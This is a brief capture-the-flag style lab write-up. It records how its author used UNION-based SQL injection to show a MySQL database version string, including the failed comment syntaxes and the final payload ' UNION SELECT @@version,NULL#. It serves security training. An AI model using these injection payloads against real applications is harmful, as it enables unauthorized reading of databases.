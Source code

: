 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
## Description
Objective: To solve the lab, display the database version string.

First couple of attempts failed using the classid
```
' UNION SELECT NULL,...--
' UNION SELECT NULL,.../*
```
Until I found that commenting out the preceeding query using `#` did the trick.
```
'+UNION+SELECT+@@version,NULL%23asdasd

# DECODED
' UNION SELECT @@version,NULL#asdasd
```
Above actually didn't mark the lab as solved, despite the version number actually being returned in the response. But by removing the asdasd after the `#` resolved the lab issue.

## Solution
`' UNION SELECT @@version,NULL#`

